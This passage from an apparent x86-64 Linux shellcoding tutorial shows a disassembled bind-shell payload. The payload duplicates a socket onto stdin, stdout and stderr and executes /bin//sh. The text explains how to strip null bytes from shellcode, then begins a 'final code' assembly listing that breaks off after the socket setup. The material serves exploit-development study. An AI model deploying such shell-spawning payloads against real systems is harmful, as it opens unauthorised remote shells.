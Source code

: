 ```term
  5a:   c6 44 24 ff 10          mov    BYTE PTR [rsp-0x1],0x10
  5f:   48 83 ec 01             sub    rsp,0x1
  63:   48 89 e2                mov    rdx,rsp
  66:   0f 05                   syscall 
  68:   49 89 c1                mov    r9,rax
  6b:   b8 03 00 00 00          mov    eax,0x3
  70:   0f 05                   syscall 
  72:   4c 89 cf                mov    rdi,r9
  75:   b8 21 00 00 00          mov    eax,0x21
  7a:   be 00 00 00 00          mov    esi,0x0
  7f:   0f 05                   syscall 
  81:   b8 21 00 00 00          mov    eax,0x21
  86:   be 01 00 00 00          mov    esi,0x1
  8b:   0f 05                   syscall 
  8d:   b8 21 00 00 00          mov    eax,0x21
  92:   be 02 00 00 00          mov    esi,0x2
  97:   0f 05                   syscall 
  99:   48 31 c0                xor    rax,rax
  9c:   50                      push   rax
  9d:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
  a4:   2f 73 68 
  a7:   53                      push   rbx
  a8:   48 89 e7                mov    rdi,rsp
  ab:   50                      push   rax
  ac:   48 89 e2                mov    rdx,rsp
  af:   57                      push   rdi
  b0:   48 89 e6                mov    rsi,rsp
  b3:   48 83 c0 3b             add    rax,0x3b
  b7:   0f 05                   syscall
```

It seems as this assembly program has a great quantity of null opcodes. Nonetheless, if we pay close attention, we might notice that most of these come from mov instructions. 
For instance, when a single byte such as 1 is being inserted into a 64-bit register such as RAX, a lot of nulls will be parsed as well. This could easily be circumvented by 
pushing such bytes as WORDs and then saving such values in Lower 16 bit registers such as ax, bx, dx, bp, and so forth. 

Other techniques could simply implement using a lower bit register such as lower 8-bits instead of 64-bits when it comes to small operations. 

Final code:

```term
global _start


_start:

        ; sock = socket(AF_INET, SOCK_STREAM, 0)
        ; AF_INET = 2
        ; SOCK_STREAM = 1
        ; syscall number 41

        xor rax, rax
        xor rdi, rdi
        xor rsi, rsi

        mov al, 41

        inc rdi
        inc rdi

        inc rsi

```